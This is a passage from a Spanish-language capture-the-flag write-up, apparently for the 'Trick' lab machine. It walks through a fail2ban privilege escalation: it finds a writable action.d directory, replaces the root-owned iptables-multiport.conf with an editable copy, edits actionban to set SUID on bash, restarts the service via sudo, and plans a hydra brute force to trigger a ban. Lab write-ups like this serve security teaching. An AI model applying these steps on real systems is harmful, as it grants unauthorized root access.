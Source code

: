 ```console
michael@trick:~$ find /etc -writable -ls 2>/dev/null
   269281      4 drwxrwx---   2 root     security     4096 Feb  8 03:30 /etc/fail2ban/action.d
michael@trick:~$ 
```
analizando el archivo de configuración vemos que si intentamos acceder por ssh nos banea la ip por 10 segundos haciendo uso de 5 intentos

```console
michael@trick:~$ cat /etc/fail2ban/jail.conf | grep -v "^#" | less
ignorecommand =
bantime  = 10s
findtime  = 10s
maxretry = 5
```
Para la escalada de privilegios, intentaremos 5 intentos fallidos con ssh para conectarnos al servidor para que podamos ser baneados y dentro de /etc/fail2ban/action.d hay un archivo de configuración iptables-multiport.conf donde podemos escribir reglas y Comandos actionstart,actionstop,actioncheck, actionban , actionunban.así que cuando nos baneen y los comandos dentro de actionban se ejecutarán.

```console
michael@trick:/etc/fail2ban/action.d$ ls -la iptables-multiport.conf 
-rw-r--r-- 1 root root 1420 Feb  8 03:45 iptables-multiport.conf
michael@trick:/etc/fail2ban/action.d$ 
```
Solo la raíz tiene acceso de escritura al archivo, ahora cambiamos el nombre de iptables-multiport.conf con iptables-multiport.conf.bak y luego copiamos iptables-multiport.conf.bak a iptables-multiport.conf para que se cambie el propietario del archivo. por lo tanto haré moveré del original a una copia y después crearé una copia pasandolo al original para que me den permisos de escribir en ello

```console
michael@trick:/etc/fail2ban/action.d$ ls -la iptables-multiport.conf 
-rw-r--r-- 1 root root 1420 Feb  8 03:48 iptables-multiport.conf
michael@trick:/etc/fail2ban/action.d$ mv iptables-multiport.conf iptables-multiport.bak
michael@trick:/etc/fail2ban/action.d$ cp iptables-multiport.bak iptables-multiport.conf
michael@trick:/etc/fail2ban/action.d$ nano iptables-multiport.conf
```
editamos el archivo iptables-multiport.conf cambiandole los comandos de iptablespor permisos SUID a la bash (como dicho servicio corre como root al banearme tendré permisos solo para ejecutar bash en privilege y ser root)

![imagen 15]({{ '/assets/img/commons/Trick/terminal3.png' | relative_url }}){: .center-image }

una vez ejecutado procederé a restablecer el servicio 
```console
michael@trick:/etc/fail2ban/action.d$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
michael@trick:/etc/fail2ban/action.d$ sudo /etc/init.d/fail2ban restart
[ ok ] Restarting fail2ban (via systemctl): fail2ban.service.
```
ahora con ayuda de hydra haré un ataque de fuerza bruta para que al proposito me banee y con watch cada segundo visualizaré los permisos de la bash 
